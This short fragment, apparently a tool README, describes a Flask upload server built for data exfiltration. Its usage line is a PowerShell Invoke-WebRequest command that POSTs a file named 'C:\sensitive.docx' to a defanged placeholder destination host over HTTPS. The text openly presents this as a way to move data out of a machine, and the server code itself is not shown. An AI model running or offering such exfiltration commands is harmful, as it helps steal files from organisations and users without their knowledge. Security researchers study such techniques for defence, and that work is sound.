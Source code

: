 ::Data ex-filtration using PowerShell-Invoke-WebRequest::

This python flask based file upload server accepts the raw file data stream and allows to transfer the data out inside SSL wrapped HTTP POST.

Usage: Invoke-WebRequest -Method POST -URI "hXXps://<destination_dot_com>" -Infile "C:\sensitive.docx"









